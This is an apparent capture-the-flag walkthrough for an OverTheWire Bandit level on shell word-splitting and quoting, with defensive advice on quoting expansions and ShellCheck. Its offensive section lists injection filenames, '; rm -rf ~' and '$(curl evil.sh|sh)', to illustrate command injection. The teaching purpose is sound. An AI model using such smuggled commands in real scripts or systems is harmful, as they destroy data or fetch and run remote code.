

## Introduction

Last level a single dash broke your command; this level it is spaces. The password lives in a file named `spaces in this filename`, and `cat spaces in this filename` chops into **four arguments** that `cat` reports as missing. Nothing is wrong with the file — the shell did what it always does: split your line on whitespace before `cat` saw it.

The lesson is **word-splitting** and the tool that controls it: **quoting** — one of the most fundamental shell skills, and the root cause of bugs ranging from broken scripts to full command injection.

## Official Challenge Objective

> **The password for the next level is stored in a file called `spaces in this filename` located in the home directory.**

**In plain English:** the filename contains spaces. To the shell a space normally separates arguments, so you must *quote* or *escape* the name so the whole thing is treated as one filename.

## Skills Covered

- Shell word-splitting on whitespace
- Quoting (`"..."`, `'...'`) and backslash-escaping
- Tab-completion for awkward names
- Globbing (`*`) as an alternative
- The `IFS` (Internal Field Separator) concept

## My Approach

`ls` confirmed the file. Typing it raw would fail — the shell sees four words. The cleanest fix is double quotes, which pass the whole name to `cat` as a single argument: `cat "spaces in this filename"`.

## Step-by-Step Walkthrough

### Command

```bash
ls
```

### Explanation

`ls` shows `spaces in this filename` as one entry. The filesystem has no problem with spaces; only the shell's parsing does.

### Why It Matters

Seeing the exact name — how many spaces and where — is essential before quoting correctly.

---

### Command

```bash
cat "spaces in this filename"
```

### Explanation

Double quotes tell the shell "treat everything between me as a single word." Word-splitting is suppressed, so `cat` gets exactly one argument and prints the bandit3 password:

```
[REDACTED]
```

> [!TIP]
> Equivalents: `cat 'spaces in this filename'`, `cat spaces\ in\ this\ filename`, `cat ./spaces*` (glob), or type `cat sp` + `Tab` to auto-escape.

### Why It Matters

Quoting is the most important habit for correct, secure shell. Most "worked on my machine, broke in production" shell bugs trace to an unquoted variable holding a space, newline, or glob character.

## Deep Dive: Cyber Security Concept

**Word-splitting, `IFS`, and quoting.**

After expansion, the shell performs **word-splitting**: it breaks the result wherever it finds a character in `$IFS` (default: space, tab, newline). That is why the name becomes four arguments.

- **Double quotes** suppress word-splitting and globbing but still allow `$VAR`/`$(cmd)` expansion.
- **Single quotes** suppress everything — fully literal.
- **Backslash** escapes one following character.

The security corollary: **always quote variable expansions.** An unquoted `$file` re-enters word-splitting *and* globbing; if an attacker controls it, results range from operating on the wrong files to command injection.



> [!IMPORTANT]
> Filenames can contain almost any byte — spaces, newlines, control chars, glob metacharacters. Robust scripts must assume hostile filenames and quote accordingly.

## Offensive Security Perspective

Unquoted variables are a goldmine:

- A script running `cp $userfile /dest` (unquoted) can be abused when `$userfile` contains spaces and metacharacters, splintering into extra arguments or commands.
- A filename like `; rm -rf ~` or `$(curl evil.sh|sh)` reaching an unquoted eval-style context yields code execution.

Whenever you see a shell script handling user-controlled paths *without quotes*, you have likely found a vulnerability.

## Defensive Perspective

- **Quote every expansion:** `"$var"`, `"$@"`, `"$(cmd)"`. Run ShellCheck in CI to flag unquoted expansions.
- **Use arrays** instead of relying on word-splitting: `cp "${files[@]}" /dest`.
- **Prefer `find ... -print0 | xargs -0`** so spaces/newlines never break the pipeline.
- **Detection:** in `execve`/Sysmon command lines, a "single filename" field that exploded into many tokens can indicate filename-based injection.
- **Hardening:** validate and normalize user-supplied filenames at the boundary.

## Common Beginner Mistakes

- Typing it raw, getting four "No such file" errors, and doubting the file exists.
- Quoting only part of the name (`cat "spaces in this" filename`) — still splits.
- Confusing single vs double quote behavior (literal vs `$`-expanding).
- Forgetting tab-completion will do the escaping for you.

## Key Takeaways

- The shell splits commands into words on `$IFS` before the program runs.
- Quote with `"..."` (allows `$`) or `'...'` (literal), or escape spaces with `\`.
- Globbing and tab-completion are convenient alternatives.
- **Always quote variable expansions** — the top rule for safe shell.
- Filenames can contain anything; assume the worst.

## How This Helps Build Cyber Security Expertise

- **Secure scripting:** quoting discipline separates robust automation from a command-injection liability.
- **AppSec & code review:** unquoted expansions are a recurring audit finding in CI/CD and install scripts.
- **Detection engineering:** knowing how command lines tokenize improves SIEM/EDR parsing rules.

## Additional Reading

- [`man bash`](https://man7.org/linux/man-pages/man1/bash.1.html) — "Quoting" and "Word Splitting"
- [POSIX Shell — Field Splitting](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_06_05)
- [ShellCheck](https://www.shellcheck.net/), [BashFAQ #001 — handling filenames safely](https://mywiki.wooledge.org/BashFAQ/001)


---

## Connect with the Author

Written by **Himangshu Pan** — offensive security researcher.

- **GitHub:** [@0xSh3ru](https://github.com/0xSh3ru)
- **LinkedIn:** [in/0xsh3ru](https://www.linkedin.com/in/0xsh3ru/)

*If this walkthrough helped, follow along on GitHub and connect on LinkedIn — questions and corrections are always welcome.*
